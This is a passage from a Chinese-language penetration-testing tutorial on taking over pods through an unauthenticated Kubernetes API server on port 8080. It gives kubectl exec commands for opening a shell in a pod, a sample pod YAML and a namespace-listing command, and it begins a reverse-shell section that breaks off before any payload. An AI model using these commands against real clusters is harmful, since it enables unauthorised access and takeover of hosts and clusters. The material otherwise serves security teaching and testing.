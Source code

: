 Step 4：执行以下命令接管pod，可以看到下方返回的提示是"pod nginx does not have a host assigned"，这是由于pod未指定host所致

```plain
#格式说明
kubectl -s ip:port  --namespace=default exec -it dockername bash

#执行实例
kubectl -s 192.168.17.144:8080 -n default exec -it nginx /bin/sh
```

[![](assets/1698893355-ffc1d74b04657c18e25a249b1ce4b899.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165014-8363d04a-7313-1.png)  
nginx的yaml文件如下：

```plain
apiVersion: v1                      
kind: Pod                           
metadata:
  name: nginx                       
spec:                               
  containers:
  - image: nginx:alpine             
    name: container-0               
    resources:                      
      limits:
        cpu: 100m
        memory: 200Mi
      requests:
        cpu: 100m
        memory: 200Mi
  imagePullSecrets:                 
  - name: default-secret
```

如果幸运的化我们可以找到恰当的Pod并通过信息收集以及逃逸获取宿主机的权限，之后控制节点以及整个集群~  
**反弹shell**  
A、Web Dashboard  
Step 1：查看当前Namespace确定命名空间有哪些

```plain
kubectl -s 192.168.17.144:8080 get namespaces
```

[![](assets/1698893355-6abb173096a14e24aff97e2f1daa124c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025165051-99e97914-7313-1.png)  
Step 2：查看"kubernetes-dashboard"命名空间下pod与service的详细状态
